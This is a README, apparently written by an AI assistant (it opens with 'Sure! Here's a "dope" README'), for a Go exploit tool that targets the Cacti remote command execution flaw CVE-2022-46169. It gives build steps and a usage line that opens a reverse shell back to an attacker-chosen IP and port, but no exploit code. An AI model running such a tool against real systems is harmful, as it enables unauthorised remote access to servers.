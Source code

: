 Sure! Here's a "dope" README.md for your `PricklyPwn` project:

---

# 🌵 PricklyPwn 🌵

![Banner](path_to_your_project_banner.png)

*Penetrate with precision. A Remote Command Execution Exploit for Cacti v1.2.22.*

---

## Table of Contents
1. [Description](#description)
2. [Installation](#installation)
3. [Usage](#usage)
4. [Ethical Notice](#ethical-notice)

---

## Description

**PricklyPwn** is a sleek, high-performance tool crafted in Go, designed to exploit the Remote Command Execution (RCE) vulnerability found in Cacti versions up to v1.2.22. Built for security enthusiasts, ethical hackers, and defenders, it assists in comprehending and remediating the CVE-2022-46169 vulnerability.

---

## Installation

```bash
# Clone this repository
git clone https://github.com/your_username/PricklyPwn.git

# Navigate to the PricklyPwn directory
cd PricklyPwn

# Build the Go binary
go build -o PricklyPwn main.go
```

---

## Usage

```bash
# Basic usage
./PricklyPwn -url <target_url> -remote_ip <reverse_shell_ip> -remote_port <reverse_shell_port>
```

For more advanced options, refer to the documentation.

---

## 🚨 Ethical Notice 🚨

This tool is strictly intended for educational and legal, authorized penetration testing purposes. Always get explicit permission before attempting any kind of testing. Unauthorized hacking is illegal and unethical. The `PricklyPwn` team cannot and will not bear responsibility for misuse.


---

## Acknowledgments

- Thanks to all security researchers who continuously push the boundaries and inspire tools like this.
- Special shoutout to the Cacti team for their commitment to making the internet a safer place.

